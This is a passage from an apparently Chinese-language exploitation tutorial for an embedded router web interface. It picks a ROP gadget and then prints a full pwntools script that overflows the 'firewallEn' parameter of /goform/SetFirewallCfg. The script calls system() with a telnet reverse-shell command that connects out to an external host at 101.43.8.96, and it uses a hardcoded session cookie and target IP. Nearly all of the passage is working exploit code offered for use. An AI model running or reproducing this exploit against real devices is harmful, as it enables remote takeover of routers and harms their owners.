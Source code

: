 [![](assets/1706958084-e2cf1a1dfc9daa1e217ac4c4c5791105.png)](https://intranetproxy.alipay.com/skylark/lark/0/2024/png/94156442/1706708611927-9f0653e9-f44e-4ed2-bd47-0989ef7e1a2e.png)

还是选择这条比较短的，0x00018298

r3\_pop= libc\_base\_addr + 0x00018298

#### 6\. 构造利用脚本 getshell

最终的 payload：

```bash
payload = cyclic(52) + p32(r3_pop) + p32(system_addr) + p32(move_ro) + cmd
```

完整的 exp 如下

```bash
from pwn import *
import requests

url = "http://47.98.137.248"
header = {
    "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8",
    "Cookie": "password=bcf33de30ebf57e4d3785c08adec4b85cvztgb"
}

# 命令执行利用 telnet 反弹 shell
cmd = b"echo test;telnet 101.43.8.96 4444 | /bin/sh | telnet 101.43.8.96 5555"

libc_base_addr = 0xff58c000
libc = ELF("./lib/libc.so.0")
system_offset = libc.symbols["system"]

system_addr= libc_base_addr + system_offset
r3_pop =libc_base_addr + 0x00018298
move_r0= libc_base_addr+ 0x00040cb8

payload = cyclic(52) + p32(r3_pop) + p32(system_addr) + p32(move_r0) + cmd

data = {"firewallEn": payload}
response = requests.post(url + "/goform/SetFirewallCfg", headers=header, data=data)
print(response.text)
```

